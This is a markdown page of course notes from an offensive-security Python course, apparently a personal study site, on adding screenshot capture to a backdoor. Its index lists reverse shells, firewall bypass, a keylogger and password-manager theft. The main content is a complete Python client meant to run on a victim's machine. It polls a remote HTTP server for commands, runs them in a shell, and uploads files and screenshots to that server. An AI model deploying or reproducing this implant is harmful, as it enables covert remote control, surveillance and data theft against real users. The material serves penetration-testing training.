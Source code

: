 ```yaml
---
title: Making a screenshot
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - screenshot capturer
---
```


# Making a screenshot

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on the victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import requests
import os
import subprocess
import time


from PIL import ImageGrab # Used to Grab a screenshot
import tempfile           # Used to Create a temp directory
import shutil             # Used to Remove the temp directory


while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())

    elif 'screencap' in command: #If we got a screencap keyword, then ..

        dirpath = tempfile.mkdtemp() #Create a temp dir to store our screenshot file
        ImageGrab.grab().save(dirpath + "\img.jpg", "JPEG") #Save the screencap in the temp dir

        url = "http://192.168.0.152:8080/store"
        files = {'file': open(dirpath + "\img.jpg", 'rb')}
        r = requests.post(url, files=files) #Transfer the file over our HTTP

        files['file'].close() #Once the file gets transfered, close the file.
        shutil.rmtree(dirpath) #Remove the entire temp dir

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)

```